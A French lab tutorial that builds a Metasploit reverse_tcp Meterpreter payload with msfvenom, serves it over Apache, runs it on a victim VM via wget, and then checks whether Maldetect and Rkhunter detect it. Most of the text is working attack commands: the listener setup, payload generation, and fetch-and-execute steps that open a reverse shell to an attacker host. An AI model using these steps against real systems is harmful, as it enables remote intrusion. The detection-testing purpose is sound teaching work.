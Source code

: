 Cette procédure  vise à démontrer comment un payload malveillant peut être généré et exécuté, puis comment des outils comme **Rkhunter** ou **Linux Malware Detect (LMD)** peuvent le détecter.

-----

### **Phase 1 : Préparation de la Machine Attaquante (Kali Linux)**

L'objectif ici est de mettre en place un "écouteur" qui attendra la connexion de la machine victime.

#### **1. Lancer la console Metasploit (MSF)**

Ouvrez un terminal sur votre machine Kali et lancez `msfconsole`.

```bash
msfconsole
```

#### **2. Configurer le gestionnaire d'écoute (handler)**

Dans la console MSF, nous allons configurer un gestionnaire générique pour recevoir la connexion inverse.

```bash
# Utiliser le module de gestion générique
use exploit/multi/handler

# Définir le type de payload attendu (doit correspondre au payload que nous créerons)
set PAYLOAD linux/x86/meterpreter/reverse_tcp

# Définir l'adresse IP de votre machine Kali (la machine qui écoute)
# Pour trouver votre IP, ouvrez un autre terminal et tapez : ip addr show
set LHOST <IP_de_votre_Kali>

# Lancer l'écouteur. Il attendra une connexion.
run
```

**Laissez ce terminal ouvert.** Il est maintenant en attente active d'une connexion.

-----

### **Phase 2 : Création et Distribution du Payload**

Maintenant, nous allons créer le fichier malveillant et le rendre accessible à la victime.

#### **3. Générer le payload avec MSFvenom**

Ouvrez un **nouveau terminal** sur votre machine Kali.

```bash
# Générer un exécutable ELF pour Linux
# -p : spécifie le payload (le même que pour l'écouteur)
# LHOST : l'IP de la machine Kali où le payload doit se connecter
# -f : le format du fichier (elf pour un exécutable Linux)
# -o : le nom du fichier de sortie
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_de_votre_Kali> LPORT=4444 -f elf -o /tmp/payload.bin
```

#### **4. Mettre le payload à disposition via un serveur web**

Le moyen le plus simple de transférer le fichier est d'utiliser un serveur web Apache.

```bash
# Démarrer le service Apache2
sudo systemctl start apache2

# Copier le payload dans le répertoire racine du serveur web
sudo cp /tmp/payload.bin /var/www/html/
```

Votre payload est maintenant téléchargeable à l'adresse `http://<IP_de_votre_Kali>/payload.bin`.

-----

### **Phase 3 : Exécution et Détection sur la Machine Victime**

Cette étape simule ce qui se passerait sur le serveur compromis.

#### **5. Télécharger et exécuter le payload**

Connectez-vous au terminal de votre machine victime (votre autre VM).

```bash
# Télécharger le fichier depuis le serveur web de la machine Kali
wget http://<IP_de_votre_Kali>/payload.bin

# Rendre le fichier exécutable
chmod +x payload.bin

# Lancer le payload
./payload.bin
```

**Ne fermez pas ce terminal.** Le processus est maintenant en cours d'exécution en arrière-plan et a dû se connecter à votre machine Kali.

-----

### **Phase 4 : Confirmation de l'Intrusion et Détection**

#### **6. Confirmer la connexion**

Retournez sur le terminal de votre machine Kali où `msfconsole` est en cours d'exécution. Vous devriez voir un message indiquant qu'une session a été ouverte :

```
[*] Meterpreter session 1 opened (192.168.X.X:4444 -> 192.168.X.Y:34567) at ...
```

Vous pouvez maintenant interagir avec la machine victime via cette session Meterpreter :

```bash
# Savoir dans quel répertoire vous êtes
pwd

# Lister les fichiers
ls

# Obtenir de l'aide sur les commandes disponibles
?
```

#### **7. Lancer les outils de détection sur la victime**

C'est l'objectif principal. Maintenant que le payload est actif, voyons comment les outils de sécurité réagissent. Sur le terminal de la **machine victime** :

  * **Avec Linux Malware Detect (LMD / Maldetect)**

LMD est excellent pour scanner les fichiers et trouver des signatures de logiciels malveillants connus. Le payload généré par `msfvenom` a une signature très reconnaissable.

```bash
# Installer maldetect s'il n'est pas présent (Debian/Ubuntu)
#
cd /tmp  
git clone https://github.com/rfxn/linux-malware-detect.git
cd linux-malware-detect/
./install.sh
```

# Lancer un scan sur le répertoire où le payload a été téléchargé (ex: /home/user/)
sudo maldet -a /home/user/

# Un scan plus large du système de fichiers temporaires est aussi une bonne idée
sudo maldet -a /tmp/
```

**Résultat attendu :** LMD devrait trouver le fichier `payload.bin` et le signaler comme une menace, en se basant sur sa base de données de signatures (par exemple, `LMD.Payload.23`).

  * **Avec Rkhunter (Rootkit Hunter)**

Rkhunter recherche des rootkits, des portes dérobées et des modifications suspectes du système.

```bash
# Mettre à jour la base de données de Rkhunter
sudo rkhunter --update

# Lancer une vérification complète du système
sudo rkhunter --check
```

**Résultat attendu :** Rkhunter pourrait détecter plusieurs choses :

1.  Le fichier `payload.bin` lui-même s'il est considéré comme un fichier de rootkit connu.
2.  Un **processus suspect en mémoire** associé à `./payload.bin`.
3.  Des **ports ouverts suspects** si le payload en avait créé.

En suivant ces étapes, vous démontrez non seulement comment une attaque de base fonctionne, mais surtout, vous prouvez l'efficacité des outils de détection pour identifier la menace, que ce soit au niveau du fichier (`LMD`) ou du comportement du système (`Rkhunter`).